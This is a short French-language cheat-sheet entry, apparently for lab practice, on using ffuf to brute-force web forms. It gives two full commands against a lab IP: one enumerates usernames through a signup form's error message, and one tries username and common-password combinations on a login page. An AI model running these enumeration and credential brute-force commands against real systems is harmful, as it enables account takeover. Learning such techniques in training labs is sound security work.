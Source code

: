 brute force des éléments sur une page web comme des noms d'utilisateurs, mot de passe, email ou autre.

[https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf "https://github.com/ffuf/ffuf")  
Exemple :  
Pour trouver juste un username

`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/signup -mr "username already exists"`

Pour trouver une combinaison (toute les combinaisons sont testées)

`ffuf -w listofusers.txt:W1 -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.200.105/customers/login -fc 200`